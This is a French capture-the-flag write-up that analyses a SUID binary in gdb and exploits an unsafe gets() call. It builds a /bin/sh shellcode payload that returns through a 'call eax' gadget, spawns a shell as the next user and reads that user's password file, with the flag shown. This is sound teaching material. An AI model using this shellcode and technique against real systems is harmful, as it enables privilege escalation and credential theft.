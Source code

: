 ## Analyse

- `ls -la`
  ```
  [...]
    -rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
  [...]
  ```
    - On a un binaire appartenant a level3 dans le home avec les droits SUID.

- `./level2`
  ```
    
  ```
  - Le programme attend un input
    - `test`
      - `test`
    - Le programme affiche le paramètre qu'on lui donne

- `gdb level2`
  - `set disassembly-flavor intel`
  - `info function`
    ```asm
    [...]
      0x080484d4  p
      0x0804853f  main
    [...]
    ```
    - on trouve une fonction p en plus du main
  - `disas main`
    ```asm
    Dump of assembler code for function main:
       0x0804853f <+0>:	push   ebp
       0x08048540 <+1>:	mov    ebp,esp
       0x08048542 <+3>:	and    esp,0xfffffff0
       0x08048545 <+6>:	call   0x80484d4 <p>
       0x0804854a <+11>:	leave
       0x0804854b <+12>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (aligne la stack)<br/><br/>
    - <+6>
      - Call p()<br/><br/>
    - <+11> ... <+12>
      - réinitialisation de la mémoire, fin d'exécution<br/><br/>
    - La fonction main() ne fait qu'appeler la fonction p()

  - `disas p`
    ```asm
    Dump of assembler code for function p:
       0x080484d4 <+0>:	push   ebp
       0x080484d5 <+1>:	mov    ebp,esp
       0x080484d7 <+3>:	sub    esp,0x68
       0x080484da <+6>:	mov    eax,ds:0x8049860
       0x080484df <+11>:	mov    DWORD PTR [esp],eax
       0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
       0x080484e7 <+19>:	lea    eax,[ebp-0x4c]
       0x080484ea <+22>:	mov    DWORD PTR [esp],eax
       0x080484ed <+25>:	call   0x80483c0 <gets@plt>
       0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
       0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
       0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
       0x080484fb <+39>:	and    eax,0xb0000000
       0x08048500 <+44>:	cmp    eax,0xb0000000
       0x08048505 <+49>:	jne    0x8048527 <p+83>
       0x08048507 <+51>:	mov    eax,0x8048620
       0x0804850c <+56>:	mov    edx,DWORD PTR [ebp-0xc]
       0x0804850f <+59>:	mov    DWORD PTR [esp+0x4],edx
       0x08048513 <+63>:	mov    DWORD PTR [esp],eax
       0x08048516 <+66>:	call   0x80483a0 <printf@plt>
       0x0804851b <+71>:	mov    DWORD PTR [esp],0x1
       0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
       0x08048527 <+83>:	lea    eax,[ebp-0x4c]
       0x0804852a <+86>:	mov    DWORD PTR [esp],eax
       0x0804852d <+89>:	call   0x80483f0 <puts@plt>
       0x08048532 <+94>:	lea    eax,[ebp-0x4c]
       0x08048535 <+97>:	mov    DWORD PTR [esp],eax
       0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
       0x0804853d <+105>:	leave
       0x0804853e <+106>:	ret
    End of assembler dump.
    ```
    - <+0> ... <+3>
      - Initialisation de la mémoire (libère 104 octets pour la stack)<br/><br/>
    - <+6> ... <+14>
      - Stocke la valeur du registre data segment 0x80497c0 dans eax
        - `x/s 0x8049860`
          - `0x8049860 <stdout@@GLIBC_2.0>:	 ""`
      - Stocke la valeur de eax (stdout) sur la stack (à esp)
      - Call fflush() avec l'argument stocké sur la stack<br/><br/>
    - <+19> ... <+25>
      - Fait pointer eax sur ebp - 76
      - Stocke eax (l'adresse de ebp - 76) sur la stack (à esp)
      - Call gets() avec l'argument stocké sur la stack<br/><br/>
    - <+30> ... <+49>
      - Stocke l'adresse ebp + 4 (l'eip) dans eax
      - Stocke eax (l'adresse de l'eip) dans ebp - 12
      - Applique un filtre binaire (0xb0000000) à la valeur de eax
      - Compare la nouvelle valeur de eax avec 0xb0000000
      - Jump à <p +83> si la comparaison n'est pas vraie<br/><br/>
    - <+51> ... <+66>
      - Stocke la valeur de 0x8048620 dans eax
        - `x/s 0x8048620`
          - `0x8048620:	 "(%p)\n"`
      - Stocke la valeur à ebp - 12 (l'adresse de l'eip) dans edx
      - Stocke la valeur de edx sur la stack (à esp + 4)
      - Stocke la valeur de eax ("(%p)\n") sur la stack (à esp)
      - Call printf() avec les arguments stockés sur la stack<br/><br/>
    - <+71> ... <+78>
      - Stocke 0x1 (1) sur la stack (à esp)
      - Call exit() avec l'argument stocké sur la stack<br/><br/>
    - <+83> ... <+89> (Jump conditionnel depuis <+49>)
      - Fait pointer eax sur ebp - 76 (le retour du gets)
      - Stocke eax (ebp - 76) sur la stack (à esp)
      - Call puts() avec l'argument stocké sur la stack<br/><br/>
    - <+94> ... <+100>
      - Fait pointer eax sur ebp - 76 (le retour du gets)
      - Stocke eax (ebp - 76) sur la stack (à esp)
      - Call strdup() avec l'argument stocké sur la stack<br/><br/>
    - <+105> ... <+106>
      - Réinitialisation de la mémoire, fin d'exécution<br/><br/>

La fonction p() fait donc:
  - fflush(stdout) => clean stdout
  - gets(ebp - 76) => attend un input
  - vérifie avec un filtre binaire et un cmp si l'eip commence par 0xb...
    - si c'est le cas:
      - printf("%p\n", eip) => affiche la valeur du pointeur sur eip
      - exit(1) => quitte la fonction
    - sinon:
      - puts(ebp - 76) => affiche le retour du gets
      - strdup(ebp - 76) => copie le retour du gets dans un malloc et le stocke dans eax

## Exploit

On sait qu'il y a un buffer overflow possible sur le gets, cependant le check au niveau de <p+44> nous empêche de réécrire l'EIP pour le faire pointer sur une fonction de la stack comme dans l'exercice précédent, il va falloir trouver un autre moyen de lancer notre exploit.

Après quelques recherches dans les fonctions importées par le programme, on trouve un call à eax dans frame_dummy:

- `gdb level2`
  - `info function`
    ```asm
    [...]
      0x080484b0  frame_dummy
    [...]
    ``` 
  - `disas frame_dummy`
    ```asm
    [...]
      0x080484cf <+31>:	call   eax
    [...]
    ```
Puisque le strdup() stocke son output dans eax, en théorie on peut écrire un exploit dans l'input du gets() et utiliser l'adresse du call eax découvert dans frame_dummy (`0x080484cf`) pour réécrire l'EIP et faire exécuter notre exploit depuis eax !

On va se servir d'un [générateur de pattern](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) pour trouver l'offset plus rapidement:

- `echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag" > /tmp/exploit`
- `gdb level2`
  - `run < /tmp/exploit`
    ```
    Program received signal SIGSEGV, Segmentation fault.
    0x37634136 in ?? ()
    ```
    - on rentre 0x37634136 dans le générateur de pattern et il nous donne un offset de 80.

Nous créons donc un payload à l'aide du shellcode trouvé dans le lien suivant : http://shell-storm.org/shellcode/files/shellcode-219.php

On a 80 octets avant d'écraser l'EIP, donc on écrit les 21 octets de notre shellcode, 59 octets random (80 - 21) et notre adresse en little endian:
  - `python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\xcf\x84\x04\x08"' > /tmp/exploit`

Enfin nous lançons le programme avec le payload malicieux comme au level précédent:
- `cat /tmp/exploit - | ./level2`
  ```
     j
  X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAτ

  ```
  - `whoami`
    ```
    level3
    ```
  - `cat /home/user/level3/.pass`
    ```
    492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
    ```

